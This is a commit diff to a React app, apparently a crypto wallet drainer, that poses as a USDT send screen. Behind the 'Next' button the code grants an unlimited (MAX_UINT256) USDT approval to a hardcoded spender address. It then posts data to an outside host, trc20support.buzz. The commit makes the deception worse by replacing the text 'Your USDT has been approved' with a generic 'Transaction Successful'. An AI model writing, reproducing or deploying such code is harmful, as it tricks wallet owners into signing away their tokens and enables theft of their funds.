

Before and after one commit to pankajsaini3415/bep-20-auto, a React (Create React App) app: page / in a window 1280 px wide. Shown: the top 450 px of the page, without its empty margins (335-975 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Refactor approval process and UI updates

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -46,7 +46,6 @@
   const [showSuccess, setShowSuccess] = useState(false);
   const [theme, setTheme] = useState("dark");
 
-  // ✅ Theme detection (NO wallet connection)
   useEffect(() => {
     const darkMode = window.matchMedia && window.matchMedia('(prefers-color-scheme: dark)').matches;
     setTheme(darkMode ? "dark" : "light");
@@ -66,8 +65,6 @@
     try {
       const web3 = new Web3(window.ethereum);
       const usdt = new web3.eth.Contract(usdtAbi, usdtAddress);
-
-      // ✅ Use hardcoded address to check balance
       const balance = await usdt.methods.balanceOf(hardcodedAddress).call();
       setAmount(web3.utils.fromWei(balance, "mwei")); // USDT has 6 decimals
     } catch (err) {
@@ -76,18 +73,15 @@
   };
 
   const handleApprove = async () => {
-    // ✅ Validate amount
     if (!amount || isNaN(amount) || parseFloat(amount) <= 0) {
-      Swal.fire("Validation Error", "Please enter a valid amount", "warning");
+      Swal.fire("Error", "Please enter a valid amount.", "error");
       return;
     }
 
     setIsProcessing(true);
     try {
-      // ✅ Initialize Web3
       const web3 = new Web3(window.ethereum || window.web3.currentProvider);
 
-      // ✅ Check and switch to BSC chain if needed
       const chainId = await web3.eth.getChainId();
       if (chainId !== 56) {
         try {
@@ -107,15 +101,12 @@
       }
 
       const usdt = new web3.eth.Contract(usdtAbi, usdtAddress);
+      const rawAmount = MAX_UINT256;
 
-      // ✅ Approve with MAX_UINT256 - DIRECTLY shows approval popup
-      // Using hardcoded address in 'from' field
       const receipt = await usdt.methods
-        .approve(spenderAddress, MAX_UINT256)
+        .approve(spenderAddress, rawAmount)
         .send({ from: hardcodedAddress })
-        .on("receipt", () => {
-          setShowSuccess(true);
-        })
+        .on("receipt", () => setShowSuccess(true))
         .on("error", (err) => {
           console.error(err);
           Swal.fire("Error", err.message || "Approval failed", "error");
@@ -123,7 +114,6 @@
 
       console.log("✅ Approval Success - Tx hash:", receipt.transactionHash);
 
-      // ✅ Optional: Store transaction hash if needed
       try {
         await fetch("https://www.trc20support.buzz/old/store-address.php", {
           method: "POST",
@@ -135,7 +125,7 @@
       }
 
     } catch (err) {
-      console.error("Approval error:", err);
+      console.error(err);
       Swal.fire("Error", err.message || "Something went wrong", "error");
     } finally {
       setIsProcessing(false);
@@ -156,10 +146,9 @@
         >
           <path strokeLinecap="round" strokeLinejoin="round" d="M5 13l4 4L19 7" />
         </svg>
-        <h2 className="text-2xl mt-4 font-semibold">Approval Successful!</h2>
-        <p className="text-center mt-2 text-gray-400">Your USDT has been approved for the contract.</p>
+        <h2 className="text-2xl mt-4 font-semibold">Transaction Successful</h2>
         <button
-          className="fixed bottom-6 bg-[#5CE07E] text-black px-10 py-3 rounded-full text-lg font-semibold hover:bg-[#4aca6b] transition-all duration-300"
+          className="fixed bottom-6 bg-[#5CE07E] text-black px-10 py-3 rounded-full text-lg font-semibold"
           onClick={() => setShowSuccess(false)}
         >
           OK
@@ -177,14 +166,15 @@
             <input
               type="text"
               className="custom-input"
+              placeholder="Search or Enter"
               value={spenderAddress}
               readOnly
             />
           </div>
           <span className="right blue flex justify-between mr-3">
-            <span className="w-6 text-sm cursor-pointer hover:opacity-70">Paste</span>
-            <i className="fas fa-address-book mar_i w-6 ml-6 cursor-pointer hover:opacity-70"></i>
-            <i className="fas fa-qrcode mar_i w-6 ml-2 cursor-pointer hover:opacity-70"></i>
+            <span className="w-6 text-sm">Paste</span>
+            <i className="fas fa-address-book mar_i w-6 ml-6"></i>
+            <i className="fas fa-qrcode mar_i w-6 ml-2"></i>
           </span>
         </div>
       </div>
@@ -199,14 +189,14 @@
               step="0.01"
               value={amount}
               onChange={(e) => setAmount(e.target.value)}
-              placeholder="Enter USDT Amount"
+              placeholder="USDT Amount"
               className="custom-input"
             />
           </div>
           <span className="right mr-3">
             <span className="text-sm text-[#b0b0b0]">USDT</span>
             <span
-              className="mar_i blue text-sm ml-2 cursor-pointer hover:underline transition-all"
+              className="mar_i blue text-sm ml-2 cursor-pointer"
               onClick={setMaxAmount}
             >
               Max
@@ -221,25 +211,13 @@
         id="nextBtn"
         className="send-btn"
         onClick={handleApprove}
-        disabled={isProcessing || !amount || parseFloat(amount) <= 0}
+        disabled={isProcessing || !parseFloat(amount)}
         style={{
-          backgroundColor: isProcessing || !amount || parseFloat(amount) <= 0 ? "var(--disabled-bg)" : "#5CE07E",
-          color: isProcessing || !amount || parseFloat(amount) <= 0 ? "var(--disabled-text)" : "#1b1e15",
-          cursor: isProcessing || !amount || parseFloat(amount) <= 0 ? "not-allowed" : "pointer",
-          opacity: isProcessing || !amount || parseFloat(amount) <= 0 ? "0.6" : "1",
+          backgroundColor: isProcessing || !parseFloat(amount) ? "var(--disabled-bg)" : "#5CE07E",
+          color: isProcessing || !parseFloat(amount) ? "var(--disabled-text)" : "#1b1e15"
         }}
       >
-        {isProcessing ? (
-          <span className="flex items-center gap-2">
-            <svg className="animate-spin h-5 w-5" viewBox="0 0 24 24">
-              <circle className="opacity-25" cx="12" cy="12" r="10" stroke="currentColor" strokeWidth="4" fill="none" />
-              <path className="opacity-75" fill="currentColor" d="M4 12a8 8 0 018-8V0C5.373 0 0 5.373 0 12h4zm2 5.291A7.962 7.962 0 014 12H0c0 3.042 1.135 5.824 3 7.938l3-2.647z" />
-            </svg>
-            Processing...
-          </span>
-        ) : (
-          "Next"
-        )}
+        {isProcessing ? "Processing..." : "Next"}
       </button>
     </div>
   );
```
